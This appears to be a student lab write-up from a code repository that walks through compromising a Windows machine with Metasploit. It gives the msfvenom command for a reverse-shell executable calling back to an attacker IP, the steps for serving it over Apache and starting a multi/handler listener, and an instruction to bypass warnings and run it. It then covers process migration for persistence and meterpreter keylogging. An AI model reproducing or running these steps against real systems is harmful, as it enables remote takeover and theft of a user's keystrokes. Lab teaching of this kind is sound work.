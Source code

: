 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig
## OUTPUT:
![Screenshot 2025-04-20 222050](https://github.com/user-attachments/assets/dc5487b6-87bb-4ace-aeba-d54ab96bd144)






Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT
![Screenshot 2025-04-20 222141](https://github.com/user-attachments/assets/a9615d8a-23f9-4103-8af5-6803a7f4ec51)








copy the fun.exe into the apache /var/www/html folder

![image](https://github.com/user-attachments/assets/ff975434-41a9-4fe6-ae0c-2f71156fbeb8)





Start apache server
sudo systemctl apache2 start
![Screenshot 2025-04-20 222717](https://github.com/user-attachments/assets/b99d3a92-19f4-4b40-9cd1-c0344effb158)








Check the status of apache2

![Screenshot 2025-04-20 222806](https://github.com/user-attachments/assets/87a62d57-8b80-4337-85d8-76eab8de74cc)






Invoke msfconsole:
## OUTPUT:






Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.


Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
![Screenshot 2025-04-07 114636](https://github.com/user-attachments/assets/b03d96a2-1d8d-4dec-8a0f-22c7cec2b903)




On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![Screenshot 2025-04-11 141549](https://github.com/user-attachments/assets/1280db57-07f0-4f80-8c79-d2915f41f8f3)




Bypass any warning boxes, double-click the file, and allow it to run.


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 






Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![Screenshot 2025-04-11 142118](https://github.com/user-attachments/assets/5e89add7-61d5-489a-9cca-d223c37acec4)





keyscan_dump	Shows the keystrokes captured so far
![Screenshot 2025-04-07 115015](https://github.com/user-attachments/assets/2cd42810-8016-4632-97ca-6ab56f11c012)





## RESULT:
The Metasploit framework for reconnaissance is  examined successfully
